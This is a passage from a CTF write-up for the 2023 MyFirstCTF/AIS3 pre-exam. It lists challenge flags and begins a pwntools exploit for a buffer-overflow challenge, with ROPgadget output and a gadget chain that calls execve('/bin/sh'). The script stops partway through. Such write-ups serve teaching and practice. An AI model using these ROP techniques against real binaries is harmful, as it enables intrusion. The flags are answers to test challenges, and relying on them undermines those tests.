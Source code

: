 # 2023 MyFirstCTF Writeup

Here are 7 challenges I solved in MyFirstCTF and I got the **first place**! (And that's the final result of pre-exam.)

## Welcome

Just open PDF and use your eyes. (?)

`AIS3{WELCOME-TO-2023-PRE-EXAM-&-MY-FIRST-CTF}`

## Robot

If you use eval, you'll stuck since once you're too fast, it'll give you `{*iter(int,1)}` to stuck you.

So disgusting. Actually I get the flag by hand.

`AIS3{don't_eval_unknown_code_or_pipe_curl_to_sh}`

## Simply Pwn

A binary with statically linked libc. With a trivial buffer overflow.

My solution is ret2libc, but I cannot find system function. So I use `execve("/bin/sh", 0, 0)` instead. Just control the registers with gadgets found by `ROPGadget` and call `execve` to get the shell.

Here is the exploit script:

```python
# Offset is 79
# Statically linked binary
# I didn't find system so I use execve
'''
$ ROPgadget --binary pwn --string '/bin/sh'      
Strings information
============================================================
0x0000000000498004 : /bin/sh

$ ROPgadget --binary pwn --only 'pop|ret' | grep rdi
0x00000000004049d4 : pop rdi ; pop rbp ; ret
0x0000000000401f2f : pop rdi ; ret

$ ROPgadget --binary pwn --only 'pop|ret' | grep rsi
0x00000000004049d2 : pop rsi ; pop r15 ; pop rbp ; ret
0x0000000000401f2d : pop rsi ; pop r15 ; ret
0x0000000000409f5e : pop rsi ; ret
                                                                                                                                                    
$ ROPgadget --binary pwn --only 'pop|ret' | grep rdx
0x000000000047f03a : pop rax ; pop rdx ; pop rbx ; ret
0x000000000047f03b : pop rdx ; pop rbx ; ret
'''

bin_sh = 0x0000000000498004
pop_rdi_ret = 0x0000000000401f2f
pop_rsi_ret = 0x0000000000409f5e
execve = 0x0000000000472b00
pop_rdx_rbx_ret = 0x000000000047f03b
from pwn import *
import sys
context.log_level = "debug"


if len(sys.argv) == 1:
```